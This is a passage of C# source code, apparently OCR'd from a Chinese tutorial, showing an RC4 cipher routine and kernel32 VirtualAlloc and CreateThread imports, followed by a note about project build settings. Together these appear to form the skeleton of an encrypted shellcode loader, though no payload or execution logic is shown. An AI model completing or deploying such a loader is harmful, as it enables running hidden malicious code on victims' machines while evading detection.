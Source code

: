```
                Swap(s, i, j);
            }

            return s;
        }
        private static IEnumerable<byte> EncryptOutput(byte[] key, IEnumerable<byte> data)
        {
            byte[] s = EncryptInitalize(key);

            int i = 0;
            int j = 0;

            return data.Select((b) =>
            {
                i = (i + 1) & 255;
                j = (j + s[i]) & 255;

                Swap(s, i, j);

                return (byte)(b ^ s[(s[i] + s[j]) & 255]);
            });
        }
        private static void Swap(byte[] s, int i, int j)
        {
            byte c = s[i];

            s[i] = s[j];
            s[j] = c;
        }
        [DllImport("kernel32.dll")]
        public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
        [DllImport("kernel32.dll")]
        public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    }
}
```
编译或执行时如果报错，可以查看下面的两个项目属性是否设置有问题
